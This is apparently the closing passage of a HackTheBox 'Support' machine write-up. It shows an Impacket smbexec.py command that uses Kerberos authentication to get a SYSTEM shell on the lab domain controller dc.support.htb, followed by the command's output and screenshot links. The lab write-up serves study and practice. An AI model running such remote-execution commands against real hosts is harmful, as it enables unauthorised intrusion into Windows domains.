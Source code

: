 ```bash 
❯ python3 smbexec.py support.htb/administrator@dc.support.htb -no-pass -k
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```

![](/assets/images/HTB/Support-HackTheBox/root.png)

![](/assets/images/HTB/Support-HackTheBox/gif.gif)


